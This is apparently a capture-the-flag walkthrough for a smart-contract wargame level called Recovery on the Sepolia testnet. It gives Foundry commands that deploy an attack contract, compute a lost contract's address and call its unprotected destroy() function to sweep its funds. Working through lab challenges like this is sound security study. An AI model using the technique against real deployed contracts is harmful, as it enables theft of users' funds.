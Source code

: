 # Recovery Solution

1) Deploy `RecoveryHack`:

```
forge create RecoveryHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

2) Call `attack()` to retrieve the `lostContractAddress`:

```
cast call `recoveryHackAddress` "attack(address)" `ìnstanceAddress` --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros from `lostContractAddress`
```

3) Call `destroy()`:

```
cast send `lostContractAddress` "destroy(address)" `sepoliaPublicKey` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
